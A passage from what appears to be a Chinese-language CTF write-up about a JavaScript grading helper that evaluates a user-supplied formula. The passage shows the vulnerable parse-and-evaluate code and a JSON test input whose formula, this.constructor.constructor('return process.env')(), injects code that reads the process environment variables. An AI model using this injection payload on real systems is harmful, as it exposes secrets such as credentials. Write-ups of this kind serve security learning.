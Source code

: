 对于 `StudentHelper.isDumb(student.name)`

```javascript
isDumb(name){
    return (name.includes('Baker') || name.includes('Purvis'));
}
```

即学生姓名中含有 `Baker` 或者 `Purvis` 就会返回 `n000o0oo00ope`

对于`StudentHelper.hasPassed(student, formula)`而言

```javascript
hasPassed({exam, paper, assignment}, formula) {
    let ast = parse(formula).body[0].expression;
    let weight = evaluate(ast, { exam, paper, assignment});

    return parseFloat(weight) >= parseFloat(10.5);
}
```

作为表达式解析，这里的分数计算没有问题，问题在于

```javascript
let ast = parse(formula).body[0].expression;
let weight = evaluate(ast, { exam, paper, assignment});
```

尝试在本地进行测试，使用

```json
{
    "name": "John Doe",
    "exam": 5,
    "paper": 5,
    "assignment": 5,
    "formula":"this.constructor.constructor('return process.env')()"
}
```

![img](img/image_20250355-205550.png)
